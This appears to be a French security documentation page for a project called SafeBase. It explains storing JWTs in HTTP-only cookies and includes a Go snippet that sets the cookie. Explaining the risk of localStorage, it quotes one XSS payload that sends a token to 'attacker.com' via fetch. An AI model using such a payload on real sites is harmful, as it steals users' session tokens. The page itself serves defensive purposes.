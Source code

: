 # 🔒 Implémentation de la Sécurité - SafeBase

## Architecture d'Authentification Sécurisée

### Principe Général

SafeBase utilise une architecture d'authentification moderne et sécurisée basée sur **JWT (JSON Web Tokens)** stockés dans des **cookies HTTP-only**, offrant une protection maximale contre les attaques courantes.

---

## 🛡️ Sécurité des Tokens JWT

### 1. Stockage Sécurisé via Cookies HTTP-Only

#### Pourquoi PAS localStorage ?

❌ **localStorage est VULNÉRABLE aux attaques XSS** :
- Accessible via JavaScript (`localStorage.getItem()`)
- Si un attaquant injecte du code malveillant (XSS), il peut voler le token
- Exemple d'attaque : `<script>fetch('https://attacker.com?token=' + localStorage.getItem('auth_token'))</script>`

#### ✅ Solution : Cookies HTTP-Only

Les cookies HTTP-only offrent plusieurs protections :

1. **Inaccessibles via JavaScript**
   - `document.cookie` ne peut pas lire les cookies HTTP-only
   - Protection contre les attaques XSS

2. **Envoyés automatiquement**
   - Le navigateur envoie le cookie avec chaque requête vers le domaine
   - Pas besoin de gestion manuelle côté frontend

3. **Options de sécurité supplémentaires**
   - `Secure` : Uniquement via HTTPS en production
   - `SameSite` : Protection contre les attaques CSRF
   - `Domain` et `Path` : Limitation de la portée

### 2. Implémentation Backend (Go)

#### Configuration du Cookie lors du Login

```go
// backend/internal/handlers/auth_handler.go
isProduction := os.Getenv("GO_ENV") == "production"
c.SetCookie(
    "auth_token",                // Nom du cookie
    token,                       // JWT token
    int(24*time.Hour.Seconds()), // Durée de vie : 24h
    "/",                         // Path : toute l'application
    "",                          // Domain : domaine actuel
    isProduction,                // Secure : HTTPS en production
    true,                        // httpOnly : CRUCIAL pour la sécurité
)
```
